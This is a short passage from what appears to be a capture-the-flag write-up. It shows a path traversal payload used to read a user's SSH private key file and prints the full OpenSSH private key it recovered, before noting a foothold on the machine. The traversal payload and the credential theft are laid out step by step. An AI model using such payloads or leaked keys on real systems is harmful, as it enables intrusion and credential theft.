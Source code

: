 * So under about we saw `Erik Morris` being the CEO and `Michel` the CTO
* Lets see if we can find files in `.ssh` for `michael:x:1001:1001::/home/michael:/bin/bash`

```txt
..././..././..././..././..././..././home/michael/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdz
c2gtcnNhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1
Gu4+9P+ohLtzc4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw
4Fwd3K7F4JsnZaJk2GYQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4H
pwRt1T74wioqIX3EAYCCZcf+4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrd
S455nARJtPHYkO9eobmyamyNDgAia/Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkAT
WMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK41kC+t4a8sQAAA8hzFJk2cxSZNgAA
AAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaCDkelLDMdnC73k2qHUa7j70
/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0+93NpCpgrHDgXB3c
rsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizEhkXgenBG3V
PvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1Ljnmc
BEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmo
U6IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri
/dldDc3CaUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4
ulSt2T/mQYlmi/KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6
L9k75t0aBWMR7ru7EYjCtnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFP
Swf01VlEZvIEWAEY6qv7r455GeU+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHR
jYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtL
OFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1VPH+7+Oono2E7cgBv7GIqpdxRso
zETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS3AZ4FVonhCl5DFVPEz4U
dlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXAfvjlQQh81veQAA
AIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sTAuNHUSgX
/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgnIn
16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxY
r9DPJkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySv
fVNPtSb0XNjsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VV
fvJDZa67XNHzrxi+IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

* We are on the system